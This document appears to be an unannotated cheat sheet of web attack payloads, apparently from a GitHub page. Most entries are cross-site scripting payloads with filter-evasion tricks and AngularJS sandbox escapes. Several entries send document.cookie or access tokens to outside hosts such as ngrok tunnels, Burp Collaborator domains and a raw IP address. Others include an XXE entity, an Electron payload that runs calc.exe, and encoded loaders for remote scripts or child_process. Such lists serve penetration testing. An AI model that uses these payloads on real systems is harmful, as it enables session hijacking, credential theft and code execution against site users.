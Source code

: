  %E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80 
 "/></a></><img src=1.gif onerror=alert(2);>
 ”/>&_lt;_script>alert(3)&_lt;/scr_ipt>”/>
 [click this link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
<img src=\"test\" onerror=\"alert(document.domain)\">
{ "comment": { "id": <comment-id>, "body": "blahblah", "body_html": "blah<img src=x onerror=alert(0);>" } }
<img src=x oneonerrorrror=alert(String.fromCharCode(120,61,97,108,101,114,116,40,49,41));>
{{$on.constructor('alert(4)')()}}
{{$el.ownerDocument.defaultView.alert(1)}}
{{location='javascript:alert\x281\x29'}}
<script>{onerror=alert}throw 1</script>
<>13"-->">'` -- `<!--<img src="--><img src=x onerror=(prompt)(`Ex.Mi`);(prompt)(document.cookie);location=`https://ex-mi.ru`;>

<x @click=$event.view.alert(5)>click</x>
<x v-bind:is="'script'" src="//14.rs" />
<x is=script src=//⑭.₨>
<component is=script src=//⑭.₨>
<strike onpointerover="alert(6)">XSS</strike>
<small onmouseenter="alert(7)">test</small>
<strong onkeyup="alert(8)" contenteditable="true">test</strong>
<spacer onmouseup="alert(9)">test</spacer>
<source id="x" tabindex="1" onbeforedeactivate="alert(10)"><input autofocus="autofocus">
<s onpointerenter="alert(11)">XSS</s>
<rt onmouseleave="alert(12)">test</rt>
<progress onpointerdown="alert(13)">XSS</progress>
<marquee onpointerover="alert(14)">XSS</marquee>
<mark onpointerup="alert(15)">XSS</mark>
<legend onmouseenter="alert(16)">test</legend>
<kbd ondblclick="alert(17)" autofocus="autofocus" tabindex="1">test</kbd>
<frameset onpointerleave="alert(18)">XSS</frameset>
<frameset onanimationend="alert(19)" style="animation-name: x;"></frameset>
<frameset onmousedown="alert(20)">test</frameset>
<frameset onbeforepaste="alert(21)" contenteditable="true">test</frameset>
<frameset id="x" tabindex="1" ondeactivate="alert(22)"></frameset>
{{-function(){this.alert(23)}()}}
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(25)')()}}

<!'/*"/*/'/*/"/*--></src \/\/onload = prompt(1)<x oncut=alert()>x<svg onload=alert(document.domain)>
<>“><img src=x onerror=alert(2)>



  "/></a></><img src=1.gif onload=prompt(28);>
 <script>window['alert'](document['domain'])</script>
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
<svg onload=prompt%26%230000000040document.domain)>
"><textarea autofocus onfocus=co\u006efir\u006d()>">< srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;document.domain&rpar;&gt;">

 <img src='/static/demos/GEECS'><img src=x onerror=alert(/DOM-XSS/)>.jpg' />
 <a href=javas&#99;ript:alert(29)>click
 “><svg/onload=alert(document.domain)>”@x.y
 <details open ontoggle=confirm()>
 #'><img src=x onerror=alert(/DOM-XSS/)>
 <audio src/onerror=alert(30)>
 <embed src=//14.rs> —
 <d3/onmouseenter=[2].find(confirm)>z on .
 "'..lpe/Title/</Style/</Script/</Textarea/</Noscript/</Pre/</Xmp><Body/OnPageShow=confirm(31)>#
 `</title><base href="https://mrvueoqjum08.redir.bugpoc.ninja/"><input id="fileIntegrity" value="${fileIntegrity}" />`
 <script>new Image().src="http://193.112.33.32/?cookie=" + document.cookie;</script>
 

 
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>

<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!--[CDATA[<]]-->SCRIPT<!--[CDATA[-->&gt;alert('gotcha');&lt;<!--[CDATA[<]]-->/SCRIPT<!--[CDATA[-->&gt;</foo>

&lt;<!\[CDATA\[<]]>SCRIPT<!\[CDATA\[>&gt;alert('gotcha');&lt;<!\[CDATA\[<]]>/SCRIPT<!\[CDATA\[>&gt;

<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!\[\CDATA\[<]]>SCRIPT<!\[\CDATA\[>&gt;alert('gotcha');&lt;<!\[\CDATA\[<]]>/SCRIPT<!\[\CDATA\[>&gt;</foo>

>"<IMG SRC="javas]]<![CDATA[cript:document.cookie=true;">]]</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN></p> 


    <script>
        if (environment.MAXYMISER === 'true') {
            document.write('<script src="x" alert(33)><\/script>');
        }
    </script>
    
    
    
<body>
<script>
const FRAME_COUNT = 1024;

let container = document.body.appendChild(document.createElement('div'));
for (let i = 0; i < FRAME_COUNT; ++i) {
  frame.style.display = 'none';
}
container.remove();

frame = container.firstChild;
alert(`
  <> is not attached to the document tree, but still has a content frame!
  frame.parentNode.parentNode: ${frame.parentNode.parentNode}
  frame.contentWindow: ${frame.contentWindow}
`);
</script>
</body>

9t337xafh5140p6xmniu2xs4ovulia.burpcollaborator.net


">><marquee><img src=//9t337xafh5140p6xmniu2xs4ovulia.burpcollaborator.net onerror=confirm(document.cookie)></marquee>




<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM 
 “http://vnm4kils63xo4q12645hx4jlico3cs.burpcollaborator.net”> ]>
  <stockCheck>
  <productId>
  &xxe;
    </productId>
     <storeId>
       1
       </storeId>
       </stockCheck>




<img src=https://eba1c363a99a.ngrok.io/XSS/grabber.php?c='+document.cookie>

<xml ID="xss"><I><B>&lt;IMG SRC=http://03ac0d27a0c8.ngrok.io/&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<a onmouseover="try{ const {shell} = require('electron'); shell.openExternal('file:C:/Windows/System32/calc.exe') }catch(e){alert(e)}">Harmless Link</a>
&lt;img src=https://2871c803f805.ngrok.io onerror="document.write"/&gt;
&lt;img src&equals;x:x onerror&equals;alert&lpar;document.domain&rpar;&gt;
&lt;img src=x onerror=Promise.all([document.domain]).then(alert);&gt;
&lt;img src=x onerror=with(document)prompt(cookie)&gt;
&lt;img src=x onerror=with(document.write)prompt(encodeURI(document.documentElement.outerHTML))&gt;
&lt;img src=x onerror=with(document.write)prompt(navigator.appVersion)&gt;
&lt;img src=x onerror=with(document.write)prompt(Date())&gt;
<img src=x onerror=with(document.location='http://127.0.0.1:1234/XSS/grabber.php?c='+localStorage.getItem('access_token'))prompt(34)>
&lt;img src=x onerror=top[/al/.source+/ert/.source](1)&gt;
&lt;img src=x onerror=with(document.write)prompt(localStorage.getItem)&gt;
&lt;img src=x onerror=with(document.write)prompt(localStorage.key(0))&gt;
<body onclick=with(document)prompt(domain)> where entry equals )}.{0:promt(36)
<button type="button" onclick=with(document)alert(domain)>Click Me!</button>

">'><details/open/ontoggle=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,40,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,102,117,110,99,116,105,111,110,40,41,123,125,41,60,47,115,99,114,105,112,116,62))>

<details open ontoggle=window.open("https://www.doyensec.com");win.eval("alert(document.domain)");>
"><<!\[CDATA\[<]]>details open ontoggle=location.href='https://google.com'>

POC<img src=x onerror='document.write(atob("UnVubmluZyBQT0M8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlwdCIgc3JjPSJodHRwOi8vMTU5LjIwMy4xOTAuMTIzL3c5cmZhczg5ZXVmczllOGZ1OThld3VmandlZmlvandlX3MxMDU4Zy0vd3AtcmNlLmpzIj48L3NjcmlwdD4="))'>
<img src=x onerror="location.href='https://f78a7fe25a9c.ngrok.io/?c='+ document.cookie">
&lt;img src&equals;x:x onerror&equals;"location.href&equals;'http://127.0.0.1:443/?c&equals;'+document.cookie"&gt;



<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!--[CDATA[<]]-->SCRIPT&gt;alert(38);&lt;<!--[CDATA[<]]-->/SCRIPT<!--[CDATA[-->&gt;</foo>
<!--?xml version="1.0" encoding="ISO-8859-1"?-->&lt;SCRIPT<!--[CDATA[-->&gt;alert('gotcha');&lt;/SCRIPT<!--[CDATA[-->&gt;
<foo>&lt;<![CDATA[<]]>SCRIPT<![CDATA[>]]>&gt;</foo>alert('gotcha');&lt;<![CDATA[<]]>/SCRIPT<![CDATA[>]]>&gt;


"><textarea autofocus onfocus=co\u006efir\u006d()>">< src="https://ewe4u0f7mfj88xwcnuxjcttqzh58tx.burpcollaborator.net">


<img src="http://127.0.0.1:1234">

{{
c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
c.$apply=$apply;c.$eval=b;op=$root.$$phase;
$root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
B=C(b,c,b);$evalAsync("
astNode=pop();astNode.type='UnaryExpression';
astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
astNode.argument={type:'Identifier',name:'foo'};
");
m1=B($$asyncQueue.pop().expression,null,$root);
m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
$eval('a(b.c)');[].push.apply=a;
}}

<plaintext><<!\[CDATA[<]]>SCRIPT type="text/javascript">
        name = location.hash.substring(1);
        document.write("<b>Hey "+unescape(name)+"! Nice to meet you</b>");
        <<!\[CDATA[<]]>/SCRIPT type="text/javascript">
        
        
“javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie”


<a"/onclick=(confirm)()>Click Here!
Dec: <svg onload=prompt%26%230000000040document.domain)>
Hex: <svg onload=prompt%26%23x000000028;document.domain)>
xss'">< srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>
javascript:{ alert`0` }
1'"><img/src/onerror=.1|alert``>
<img src=x onError=import('//1152848220/')>
%2sscript%2ualert()%2s/script%2u
<svg on onload=(alert)(document.domain)>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
<svg on =i onload=alert(domain) (working)
<svg/onload=location/**/='https://your.server/'+document.domain>
<svg onx=() onload=window.alert?.()> (working)
test",prompt%0A/*HelloWorld*/(document.domain) (working)- @Brutelogic
"onx+%00+onpointerenter%3dalert(domain)+x" (working)- @Brutelogic
"><svg%20onload=alert%26%230000000040"1")> (working)- @IamRenganathan
%27%09);%0d%0a%09%09[1].find(alert)//
"><img src=1 onmouseleave=print()> - @itsgeekymonk
<svg on onload=(alert)(document.domain)> -@zapstiko
<svg/on%20onload=alert(1)> (working) -@aufzayed
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> -@ex_mi


        
        
        "/><svg/on<script>load=prompt(document.domain);>"/><svg/on<script>load=prompt(document.cookie);>
        
        
